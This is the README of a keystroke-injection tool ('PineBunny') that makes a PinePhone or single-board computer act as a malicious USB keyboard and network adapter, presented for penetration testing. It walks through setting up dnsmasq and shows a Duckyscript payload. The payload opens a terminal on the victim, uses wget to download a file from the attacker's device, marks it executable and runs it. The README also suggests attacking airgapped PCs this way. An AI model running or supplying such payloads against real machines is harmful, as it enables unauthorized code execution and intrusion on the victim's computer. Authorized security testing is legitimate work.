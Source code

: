 # PineBunny

# An attempt to implement something similar to what a Bash Bunny does on the PinePhone (Pro)

This is a recollection of scripts to enable the virtual /dev/hidg0 device on USBGadget enabled kernels and perform keystroke injection attacks emulating a keyboard. This tool is mostly useful in penetration testing assesments and engagements and the ideal devices to use this with would be any kind of Raspberry Pi model/any single board linux computer for that matter, and the PinePhone (Pro) or any other linux phone with a compatible kernel.
Even though those devices are the best ones to use, the tool should work on any device as long as it has USBGadget enabled.


# ¿How to check if my kernel is compatible?

To see if your kernel was compiled with USBGadget enabled, you can typically check the file "/proc/config.gz" to see your current kernel configuration.
Do `gunzip -c /proc/config.gz | grep CONFIG_USB_GADGET=` and check if it ends in `y`. If not you'll have to recompile the kernel yourself and enable it; which is beyond the scope of this repository.


# Installation

To install the scripts clone the repository first and cd into it, and then simply compile usleep and hid-gadget-test:
`gcc -o hid-gadget-test.c hid-gadget-test`
`gcc -o usleep.c usleep`
Then, you can simply remove the .c files and copy those along with the pinebunny and usbarsenal binaries to /usr/local/bin.
Everytime you run the 'pinebunny' script you'll have to choose the layout you want to use. BUT, if you only need to use one of them and don't want to be entering everytime you use the tool, you can hardcode it in and it won't ask you again unless you change it back. Just simply edit pinebunny at the beginning of the file from something like this:

```
#!/bin/bash

defdelay=0
kb="/dev/hidg0 keyboard"

last_cmd=""
last_string=""
line_num=0
layout=""	#Enter the name of the layout here [us, es, it]
choose=true	#Change this to false and hardcode a layout before if you only plan on using 1 keyboard distribution
```
To something like this:

```
layout="us"	#Enter the name of the layout here [us, es, it]
choose=false	#Change this to false and hardcode a layout before if you only plan on using 1 keyboard distribution
```

Only us ,es, it and fr layouts are supported right now, I'll work on more layouts when I get the time.


# Usage

The badusb script uses conventional Duckyscript, and its usage is:

`sudo usbarsenal` You need to enable /dev/hidg0 first, tho usbarsenal also has options for enabling ECM or RNDIS tethering and Mass Storage (you need to specify the loop device to use), so you'll have ethernet over USB, too. Just keep in mind that your target won't get an IP address automatically assigned without a proper dhcp server running. I personally like to use dnsmasq)
`sudo pinebunny duckypayload.txt`

# UPDATE

Now you can execute bash commands in any part of the duckyscript payload just as you would do so on a Bash Bunny! The difference being that the Bash Bunny payloads run bash commands like normal and it uses `Q STRING somethinghere` to specify the next thing is just duckyscript, and here it's backwards. By default everything is duckyscript and you specify a bash command like this: `BASH somecommandhere`.

Only limitation of running bash commands like this is that it will wait until that command finishes (with or without errors) before executing the next intruction of the payload, so some commands that execute forever until you stop them will freeze the rest of the payload from executing. There's an easy fix for that though, and that's to run that command as a background process like: `BASH someinfinitecommandhere &`, and then just disowning the process and moving on with life: `BASH disown %`. After that the process will run in the background and the rest of the payload will continue.

Enjoy using bash commands to do crazy stuff to your heart's content ^_^


# Example payload using HID + Ethernet

`usbarsenal` can enable Ethernet over USB, and that can be used for different kinds of attacks. The only thing you have to keep in mind is that you need to manually assign an IP address to the usb0 interface, as well as a netmask and you also need a proper dhcp and dns server (like dnsmasq) so that the target machine gets assigned an IP address automatically.

Let's say we have a file we want the target to download and execute, a file hosted on the PinePhone itself (like `python -m http.server` for example).
We'll need to prepare the usb0 interface and a dhcp server so the computer gets an IP assigned: `sudo usbarsenal`, `sudo ifconfig usb0 up 10.66.0.1 netmask 255.255.255.0`. Then, the dhcp server with this `dnsmasq.conf` configuration:

```
interface=usb0
dhcp-range=10.0.0.2, 10.0.0.30, 255.255.255.0, 12h
dhcp-option=3, 10.0.0.1
dhcp-option=6, 10.0.0.1 
server=8.8.8.8
log-queries
log-dhcp 
listen-address=127.0.0.1
```
`sudo dnsmasq -C dnsmasq.conf -d` We leave that running or we add it to the payload itself 

```
BASH dnsmasq -C dnsmasq.conf -d
BASH disown %
``` 
and we also leave the web server running: `python -m http.server` (or add it to the payload as well as above). Now it should work. Our example payload file looks like this, and it is aimed at a regular linux desktop:

```
DELAY 2000
ALT F2
DELAY 500
STRING xfce4-terminal
ENTER
DELAY 1000
STRING wget http://10.0.0.1:8000/hello
ENTER
DELAY 400
STRING chmod +x ./hello
ENTER
DELAY 100
STRING ./hello
ENTER
```
`sudo pinebunny payload.txt`

Remember, ethernet over USB can give you physical network access to a computer, which means you could hack an airgapped PC too!
Moreover, you are not forced to use a Duckyscript payload, you could just ignore that and launch a nmap scan physically connected over USB!
The options are endless...
